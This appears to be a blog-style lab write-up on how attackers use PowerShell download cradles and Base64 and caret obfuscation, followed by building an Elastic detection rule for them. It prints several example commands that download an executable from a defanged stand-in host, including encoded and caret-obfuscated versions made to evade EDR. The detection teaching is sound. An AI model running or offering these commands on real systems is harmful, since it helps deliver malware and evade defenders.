









# Evil PowerShell

PowerShell first introduced in 2006, has become one the most widely used scripting languages used by administrators within a Windows environment. Now bundled with current versions of Windows and can be installed on other operating systems such as Mac and Linux, is mainly used for automations. However, although prominently used for good, threat actors use PowerShell to execute malware, obtain persistence, exfiltrate data, laterally move through environments, etc. etc. You get the picture. 

I want to begin with reviewing how Threat Actors abuse what is known as PowerShell 'download cradles' to place malware on an endpoint. After we review the download cradles, we'll move on to encoded commands (How Threat Actors obfuscate PowerShell with Base64), and what telemetry you'll need to successfully detect, investigate, and respond to suspicious PowerShell activity.

## PowerShell - Download of a binary!

A binary can consist of an .\exe, .\dll, .\SYS, but not limited to .\cpl. It is not uncommon nor is it common, that a binary signed by Microsoft can be downloaded then automatically sideloads a malicious DLL. See [TerminalFix Campaign](https://www.microsoft.com/en-us/security/blog/2026/08/28/terminalfix-campaign-deploys-reverse-tunnel-through-multistage-intrusion/) where DLL sideloading was used to load dui70.dll (a malicious DLL). In this instance, an EDR would assume this behavior is expected due to the binary being signed by Microsoft. 

This TTP is associated with MITRE ATT&CK framework [Command and Scripting Interpreter: PowerShell](https://attack.mitre.org/techniques/T1059/001/).

So how can powershell download binaries and executables? Well, PowerShell has several built-in cmdlets that can be used as 'download cradles' to get files from the internet. 

- Invoke-Webrequest
- Invoke-Expression
- curl.exe
- Start-BitsTransfer

### Examples

**Invoke-WebRequest**

```powershell
# Download using Invoke-WebRequest cmdlet

powershell.exe -Command "Invoke-WebRequest -Uri http://evil[.]com/bad[.]exe -OutFile '$env:TEMP\bad.exe'"
```

What is happening here? [Invoke-WebRequest](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/invoke-webrequest?view=powershell-7.6) cmdlet sends an HTTP or HTTPS request to a web page or web service. The '-Uri' (Uniform Resource Identifier) parameter is used to tell powershell exactly where to point the web request. PowerShell is invoking a web request to ```hxxp[://]evil[.]com/bad[.]exe``` to retrieve a malicious file. After the web request is made, the ```'-OutFile'``` parameter tells the machine which folder or directory the file/executable should be placed. The ```'$env:TEMP'``` is another way to designate the current users temporary directory (C:\Users\Name\AppData\Local\Temp).

**Invoke-Expression & curl.exe**

```powershell
# Download using Invoke-Expression

$download = 'curl.exe -fsL "https://evil[.]com/bade.exe" -o "$env:TEMP\bad.exe"'
Invoke-Expression -Command $download
```

Using [Invoke-Expression](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/invoke-expression?view=powershell-7.6) is not inherently a download cradle, however, it is a great way to execute commands embedded as a string. Later, I will discuss how Threat Actors using Base64 encoding to obfuscate strings to execute PowerShell and download malware. In this instance, we are using Invoke-Expression to execute a string as a command that contains curl.exe. 

[Curl.exe](https://learn.microsoft.com/en-us/windows/curl/) is now a built-in Windows tool found on Windows 10 version 1803 and later. This is a commandline tool is used to download files, automate web tasks, test API's, and network troubleshooting. Unfortunately, Threat Actors use native tools such as curl to download malware onto an endpoint as well.

In the code snippet, we see the variable ```$download``` storing a string ```'curl.exe -fsL "https://evil[.]com/bade.exe" -o "$env:TEMP\bad.exe"'``` and ```Invoke-WebRequest -Command $download``` on the second line. The ```Invoke-WebRequest``` with ```-Command``` parameter is telling the Windows OS to execute the string stored in the ```$download``` variable. Curl then executes, using '-fsL' parameters telling it to (-f) fail on HTTP errors, (-s) execute in silent mode, and (-L) follow redirects. Once curl has executed and initiated the download of the executable, '-o' parameter is stating to 'OutFile' the executable to ```'$env:TEMP'```.

**Start-BitsTransfer**


```powershell
# Download using Start-BitsTransfer

Start-BitsTransfer -Source "https://evil[.]com/bad.exe" -Destination "$env:TEMP/bad.exe"
```

Same cloth, different cut, [Starts-BitTransfer](https://learn.microsoft.com/en-us/powershell/module/bitstransfer/start-bitstransfer?view=windowsserver2025-ps) is another cmdlet that is considered a 'download cradle'. The Background Intelligent Transfer Service (BITS) transfer job allows for one or more files to be transfered between a client computer and a server. This cmdlet also supports the download of multiple files from a server to an endpoint/client computer. 

I do not feel the need to brake down this commandline string, I think ya'll get the picture.

**Additional Info**

However, these commandline arugments may appear "childlike" and very simple, and they are. Out in the wild you may see more advanced powershell executions with multiple lines, embedding strings into multiple variables to chain the variables together, obfuscation using carrots (^), and of course obfuscation using Base64, which we will get to next. It's imperative you understand the syntax of PowerShell, and have the ability to interpret what you are analyzing.

## PowerShell - Obfuscation Techniques

Obfuscation is the practice of making something difficult to understand. In this instance I will cover how Base64 encoding is using to obfuscate PowerShell arguments as well as the use of carrots (^) to evade EDR and download suspicious/malicious files. This is a common practice by threat actors especially in modern environments. Most and if not all modern EDR will detect anamolous use of the above download cradles.

### Base64 and PowerShell

Base64 is a binary-to-text encoding that uses '64' printable characters to represent each 6-bit of a sequence of byte values. Now what exactly does that mean? Well, it's a way to create a "hidden" message and in order for you to find out that hidden message you need tools to decode it. Tools such as [CyberChef](https://gchq.github.io/CyberChef/) which has several different capabilities allowing you to transform data (encode or decode), convert data, calculate crpytographic hashes, and much more. It's a great tool. 

For an exmaple, I will reference one of the download cradles previously mentioned, let's go with... Invoke-Expression. 

But first... let's use CyberChef to encode the "malicious" command ```Invoke-Expression -Command 'curl.exe -fsL "https://evil[.]com/bade.exe" -o "$env:TEMP\bad.exe"'```.




So, we selected to change the Encode text to UTF-16LE due to PowerShell's ```-EncodedCommand``` format requirements. Then we chose to transform the command into a Base64 value:

 ```SQBuAHYAbwBrAGUALQBFAHgAcAByAGUAcwBzAGkAbwBuACAALQBDAG8AbQBtAGEAbgBkACAAJwBjAHUAcgBsAC4AZQB4AGUAIAAtAGYAcwBMACAAIgBoAHQAdABwAHMAOgAvAC8AZQB2AGkAbABbAC4AXQBjAG8AbQAvAGIAYQBkAC4AZQB4AGUAIgAgAC0AbwAgACIAJABlAG4AdgA6AFQARQBNAFAAXABiAGEAZAAuAGUAeABlACIAJwA=```

```powershell
# Execute Encoded Command

powershell.exe -NoProfile -EncodedCommand 'SQBuAHYAbwBrAGUALQBFAHgAcAByAGUAcwBzAGkAbwBuACAALQBDAG8AbQBtAGEAbgBkACAAJwBjAHUAcgBsAC4AZQB4AGUAIAAtAGYAcwBMACAAIgBoAHQAdABwAHMAOgAvAC8AZQB2AGkAbABbAC4AXQBjAG8AbQAvAGIAYQBkAC4AZQB4AGUAIgAgAC0AbwAgACIAJABlAG4AdgA6AFQARQBNAFAAXABiAGEAZAAuAGUAeABlACIAJwA='
```

This will execute and run the encoded command, downloading the malware onto the endpoint. Now... what if we added obfuscation to curl.exe AND encoded the command? Obfuscation to curl.exe is not new, but has been more prevalent as of lately. Threat Actors have found that the caret (^) can function as an escape character when the caret is placed directly before a standard alphanumeric character.

```Invoke-Expression -Command 'c^u^r^l h^t^t^p://e^v^i^l^[.]^c^o^m/b^a^d.exe -o "$env:TEMP\bad.exe"'```

When this command executes, the command interpreter will strip the caret's and invoke the expression as expected. Now let's take this a step further and encode that command to Base64 using CyberChef:



We'll put that into an expected PowerShell command for execution...

```powershell
# Execute Obfuscated Curl Command

powershell.exe -NoProfile -EncodedCommand 'SQBuAHYAbwBrAGUALQBFAHgAcAByAGUAcwBzAGkAbwBuACAALQBDAG8AbQBtAGEAbgBkACAAJwBjAF4AdQBeAHIAXgBsACAAaABeAHQAXgB0AF4AcAA6AC8ALwBlAF4AdgBeAGkAXgBsAF4AWwAuAF0AXgBjAF4AbwBeAG0ALwBiAF4AYQBeAGQALgBlAHgAZQAgAC0AbwAgACIAJABlAG4AdgA6AFQARQBNAFAAXABiAGEAZAAuAGUAeABlACIAJwA='
```

And voila! A powershell command that is double obfuscated! Let me be clear, this is a basic representation of a malicious PowerShell command. Threat Actors, especially nation state threat actors, will have complex configurations of a PowerShell script to not only include obfuscation such as carets or base64, but use Base64 to be saved to variables. These variables will then be pieced together to complete a string, then execute, and much much more.

## Detecting Suspicious PowerShell

Now, since we have an idea of what some suspicious PowerShell commands may look like, let's see if we can find them in Security Onion/Elastic and make a detection rule! 

...pivots...

Let's execute the most recent PowerShell command, the one that's double obfuscated with Base64 and carets functioning as escape characters. We have our Windows 11 VM operational and for this lab, I'll just execute the command from PowerShell terminal.



...enter...

Let's move over to Elastic and search for the encoded command that executed on WIN11-01. A great way to start a hunt for encoded commands is by searching for ```-EncodedCommand``` flag.



Look what we have! We found the execution of the encoded command while searching for ```-EncodedCommand```, but did the logs find the curl.exe execution as well? Let's see... 

Looks like we were able to find the execution of curl.exe to the malicious url grabbing a malicious file.



To add some context or additional information stating that these events are tied to each other, we can look at the ```process.parent.args``` field within Elastic. This should show us the parent command line.



---

## Creating Rules in Elastic

Now, in a real world example, we would also verify if the executable made it to the users temporary folder. Since that URL is just an example (as well as being defanged), along with the executable, we shall skip that. 

So how do we make this into a detection? 

Well, we start by creating a query that matches the behavior we're looking for.

```
event.dataset: "endpoint.events.process" and
event.category: "process" and
event.type: "start" and
process.name: "curl.exe" and
process.parent.name: ("powershell.exe" or "pwsh.exe") and
process.parent.args: "-EncodedCommand" and
process.args: "-o"
```

Looks like our query captures the event! That's good news!



Since we validated the event we want to capture, let's turn that into a rule. 

Navigate to the **Elastic web interface** > **Hamburger** > **Security** > **Rules** > **Detection rules (SIEM)** > **Create new rule** > **Custom Query**.

### Create New Rule

Let's define the rule, we're going to select which log index to query, in this instance we'll just do ```logs-*```. We'll use the query we made earlier to capture events that match certain field values. Set the rule type to ```query``` and we'll keep Timeline template ```none```. 



### About the Rule

We'll set some metadata about the rule.

- Name: ```Encoded PowerShell Spawning Curl```
- Description: ```Detects encoded PowerShell execution spawning curl.exe with a file output argument, potentially indicating obfuscated payload retrieval.```
- Severity: ```High``` - Seems appropriate to the amount of risk & impact.
- Risk Score: ```73``` 
- Tags: ```PowerShell``` ```LOLBins``` ```Payload Download``` ```Detection Engineering``` - Tags are very important when globaling searhcing like detections.



**Advanced Settings**

Advanced settings such as setting the MITRE ATT&CK Tactics and Techniques is great for contextual information. This information will also assist when you decide to do a gap analysis for detections within your environment. With a gap analysis you can identify gaps in your detection coverage for your environment.

I chose the following:

- Tactic: Execution (TA0002) with Technique: Command Scripting Interpreter (T1059) due to the use of PowerShell executing command line arguments.
- Tactic: Defense Evasion (T10005) with Technique: Obfuscated Files or Information (T1027) due to the obfuscation, Base64 encoding and carets escaping alphanumeric characters in the curl statement.
- Tactic: Command and Control (TA0011) with Technique: Ingress Tool Transfer (T1105) due to the malicious executable being downloaded to the machine. 


### We have an Alert!!! 

Okay so, I executed the command for a second time on ```WIN11-011``` and an alert generated with the expected information. We can see in the alert the parent commandline argument with the Base64 encoded string following the child execution of curl.exe to the malicious domain.


## Wrapping Up!!

Whoa that was a loooot! We covered various download cradles where PowerShell can download files from the internet. Such as Invoke-WebRequest, Invoke-Expression, Curl, and Start-BitsTransfer. We also took the time to cover obfuscation and how threat actors use Base64 to encode the commandline argument. We also touched on how the caret can be used to escape characters, another type of obfuscation to evade EDR. Lastly, we turned this knowledge into a detection using Elastic. 

Thank you for taking the time to read this article and if you have any questions, please send me an email.